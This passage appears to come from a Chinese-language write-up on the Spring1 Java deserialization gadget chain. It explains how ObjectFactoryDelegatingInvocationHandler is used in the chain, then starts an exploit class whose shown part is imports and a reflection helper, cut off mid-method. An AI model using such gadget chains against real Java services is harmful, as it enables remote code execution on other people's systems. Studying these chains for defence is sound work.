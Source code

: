 ## ObjectFactoryDelegatingInvocationHandler
`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`是`InvocationHandler`的实现类, 实例化时接收一个`ObjectFactory`对象, 并在`invoke`代理时调用`ObjectFactory`的`getObject`方法返回`ObjectFactory`的实例用于`Method`的反射调用.

由于`ObjectFactory`的`getObject`方法返回的对象是泛型的, 因此可以用`AnnotationInvocationHandler`来代理, 返回任意对象. 而`ObjectFactoryDelegatingInvocationHandler`自己本身就是代理类, 可以用它代理之前的`TypeProvider`的`getType`方法.

<div align=center><img src="./images/2.png"></div>

## EXP
```java
package org.h3rmesk1t.Spring1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 3:47 下午
 */
public class Spring1Exploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
```